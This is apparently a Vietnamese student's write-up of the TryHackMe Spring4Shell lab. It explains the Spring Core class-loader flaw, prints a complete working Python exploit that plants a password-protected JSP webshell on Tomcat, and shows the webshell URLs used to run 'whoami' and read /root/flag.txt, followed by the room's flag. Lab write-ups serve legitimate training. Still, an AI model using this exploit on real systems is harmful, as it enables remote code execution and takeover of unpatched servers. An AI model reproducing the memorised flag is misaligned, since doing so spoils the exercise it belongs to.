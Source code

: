- link bt: https://tryhackme.com/room/spring4shell<br>

*. task 1<br>
- lỗ hổng: Spring4Shell ảnh hưởng đến 1 thành phần trong Spring Core <br>

*. task 2<br>
- lỗ hổng này cho phép kẻ tấn công tải 1 webshell (đoạn mã chấp nhận lệnh từ kẻ tấn công mà máy chủ web sau đó bị lừa thực thi) lên máy chủ dễ bị tấn công, thực hiện lệnh từ xa
- spring mvc là 1 phần của spring framework: nó can tự động khởi tạo và điền vào 1 đối tượng của 1 lớp đc chỉ định khi yêu cầu đc thực hiện trên các tham số đc gửi đến điểm cuối
- -> can lợi dụng để ghi đè
- Spring4Shell: buộc ứng dụng ghi 1 tệp .jsp độc hại vào máy chủ web -> thực thi lệnh từ xa<br>

*. task 3<br>
- nội dung tệp exploit.py<br>
```
┌──(root㉿kali)-[/home/kali/Downloads]
└─# cat exploit.py                    
#!/usr/bin/env python3
# Spring4Shell Exploit
# Original Exploit: https://github.com/BobTheShoplifter/Spring4Shell-POC/
# Modified by: AG | MuirlandOracle

import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```

1. What is the flag in /root/flag.txt?<br>
- truy cập: http://10.10.125.191/tomcatwar.jsp?pwd=thm&cmd=whoami
- sau đó truy cập: http://10.10.125.191/tomcatwar.jsp?pwd=thm&cmd=cat /root/flag.txt<br>

As: THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm}
